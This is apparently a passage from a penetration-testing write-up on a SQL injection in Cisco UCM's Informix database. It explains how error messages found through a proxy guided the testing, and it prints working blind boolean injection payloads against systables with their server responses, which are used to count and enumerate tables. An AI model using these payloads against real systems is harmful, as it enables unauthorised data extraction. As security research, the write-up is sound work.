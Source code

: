 ## Enumerating Other Table Names

One of the best things you can do to troubleshoot any SQLMap issue (or any tool for web application testing) is to proxy the traffic from the tool. In this case, proxying SQLMap through BurpSuite helped identify that whenever SQLMap was instructed to enumerate other table names and database names, the server would always respond with one of the following errors:

* ERROR: A subquery has returned not exactly one row.
* ERROR: "NVL" cannot be used in a query
* ERROR: "RTRIM" cannot be used in a query
* ERROR: "LIMIT" cannot be used in a query
* ERROR: "LENGTH" cannot be used in a query

The first error "not exactly one row" was Googleable and could be linked back to Informix. The other errors appeared to be generic restrictions that were built into Cisco UCM itself. With those error messages in mind, it would appear that a custom script and/or tool would be required to further exploit this issue.

In order to enumerate each table, a work flow was established:

* Figure out how many valid tables were stored within the database
* Enumerate each table name letter by letter
* Enumerate how many rows and columns were in each table

To figure out how many valid tables existed, we used the `tabid` value. Specifically, we performed some "greater than" and "less than" operations based on the following payload:

```
1=1 AND (SELECT ascii(substring(tabname from 1 for 1)) FROM systables WHERE tabid > 1) > 1
```

The above payload would force the server to return the ASCII value for the first letter of each table name if their `tabid` value was more than 1. This of course returned multiple results since there is surely more than 1 table which forced the server to respond with another "Result is more than 1 column" error. However this was expected because the idea that *something* returned means that *something* exists. To illustrate this point further, take the following payload:

```
1=1 AND (SELECT ascii(substring(tabname for 1 from 1)) FROM systables WHERE tabid > 100) > 1
```

Now we are looking for tables whose tabid value is greater than 100. If a table does not exist because a tabid value over 100 does not exist, then the server will respond with no data.

So based on this behavior, we can enumerate how many tables are in the underlying database:

```
1=1 AND (SELECT ascii(substring(tabname from 1 for 1)) FROM systables WHERE tabid > 1) > 1
#returned "more than 1 row" error
1=1 AND (SELECT ascii(substring(tabname from 1 for 1)) FROM systables WHERE tabid > 100) > 1 
#returned no data
1=1 AND (SELECT ascii(substring(tabname from 1 for 1)) FROM systables WHERE tabid > 50) > 1 
#returned "more than 1 row" error
1=1 AND (SELECT ascii(substring(tabname from 1 for 1)) FROM systables WHERE tabid > 75) > 1 
#returned no data
1=1 AND (SELECT ascii(substring(tabname from 1 for 1)) FROM systables WHERE tabid > 65) > 1 
#returned "more than 1 row" error
1=1 AND (SELECT ascii(substring(tabname from 1 for 1)) FROM systables WHERE tabid > 74) > 1 
#returned "more than 1 row" error
1=1 AND (SELECT ascii(substring(tabname from 1 for 1)) FROM systables WHERE tabid = 75) > 1 
#returned no data
```
